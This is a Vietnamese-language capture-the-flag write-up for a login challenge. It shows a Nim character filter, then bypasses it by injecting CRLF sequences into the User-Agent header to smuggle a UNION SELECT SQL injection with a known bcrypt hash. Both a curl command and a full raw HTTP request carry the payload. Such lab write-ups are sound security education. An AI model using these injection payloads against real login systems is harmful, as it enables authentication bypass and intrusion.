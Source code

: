 - nhận username và password của người dùng -> sau đó check qua hàm `containsSqlInjection` cả 2 tham số này:

``
proc containsSqlInjection(input: string): bool =
  for c in input:
    let ordC = ord(c)
    if not ((ordC >= ord('a') and ordC <= ord('z')) or
            (ordC >= ord('A') and ordC <= ord('Z')) or
            (ordC >= ord('0') and ordC <= ord('9'))):
      return true
  return false
``

- Như đã thấy thì chỉ cho phép các kí tự nằm từ a-zA-Z0-9 -> nếu kiểm tra thành công sẽ lấy user-agent từ header + jsonData là username và password đã nói ở trên -> thực hiện gửi đến go server để login nếu mà trả ra 200 -> nhận flag.

### Flow

- Ta sẽ dùng crlf để bypass việc gửi username và pasword của người dùng để vượt qua waf


![image](https://hackmd.io/_uploads/HyWdhkd8R.png)


- Nếu build docker thì có thể dùng lệnh : `curl "http://localhost:9090/login" -X POST   --data-binary $'{\"username\":\"asas\' union select 1 as id , \'hacker\' as username , \'$2a$10$N2/NBEeXbAL5XqK6l.ZLAuJkZgRcWE9SLcXJlQ.paq/5c0bTqoFne\' as password  -- \", \"password\":\"password123\"}' -H "User-Agent: Mozilla/7.0" -H "Content-Type: application/json"` để kiểm tra xem sqli của bạn có hoạt động hay không


### Khai thác


![image](https://hackmd.io/_uploads/HklvTkO8A.png)

![image](https://hackmd.io/_uploads/SyY9Ak_U0.png)


```
POST /user HTTP/1.1
Host: 94.237.54.176:38751
User-Agent: Mozilla/7.0%0d%0a%0d%0a%7b%22username%22%3a%22asas'%20union%20select%201%20as%20id%2c%20'hacker'%20as%20username%2c%20'%242a%2410%24N2%2fNBEeXbAL5XqK6l.ZLAuJkZgRcWE9SLcXJlQ.paq%2f5c0bTqoFne'%20as%20password%20%20--%20%22%2c%22password%22%3a%22password123%22%7d
Accept: */*
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate, br
Referer: http://94.237.54.176:38751/
Content-Type: application/x-www-form-urlencoded
Content-Length: 173
Origin: http://94.237.54.176:38751
Connection: close
Priority: u=1

username=hehaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaae&password=huhuaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa
```

